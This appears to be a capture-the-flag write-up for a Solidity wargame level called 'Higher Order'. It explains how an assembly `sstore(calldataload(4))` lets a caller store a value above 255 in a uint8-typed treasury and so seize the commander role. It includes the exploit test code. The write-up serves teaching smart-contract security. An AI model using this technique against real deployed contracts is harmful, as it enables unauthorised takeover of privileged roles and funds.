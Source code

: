 ### References

* https://docs.soliditylang.org/en/v0.8.21/abi-spec.html
* https://docs.soliditylang.org/en/v0.8.21/abi-spec.html#use-of-dynamic-types

## 30 Higher Order

To beat this level, we need to comply with

```solidity
instance.commander() == _player;
```

### Solution

The function `claimLeadership()` allows the player to become the `commander`, provided that the value of the `treasury` variable exceeds `255`.

```solidity
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```

The issue is that the function responsible for updating the `treasury` variable takes an input parameter of type `uint8`.

```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

Here, `calldataload(p)` reads 32 bytes from calldata starting at the specified offset `p`. The value is then written directly into the designated storage slot using `sstore()`. However, `sstore()` does not enforce type restrictions on the value being stored. This allows us to bypass the `uint8` constraint and provide a value greater than `255`. For instance, we can use `0x0100`, which exceeds the maximum value of `0xff` (255 in decimal).

### Implementation

The following exploit demonstrates how to achieve this:

```solidity
function testExploit() public {
  (bool success,) = challengeAddress.call(abi.encodeWithSignature("registerTreasury(uint8)", uint16(0x100)));
  require(success, "registerTreasury failed");

  (success,) = challengeAddress.call(abi.encodeWithSignature("claimLeadership()"));
  require(success, "claimLeadership failed");

  utils.submitLevelInstance(challengeAddress);
}
```
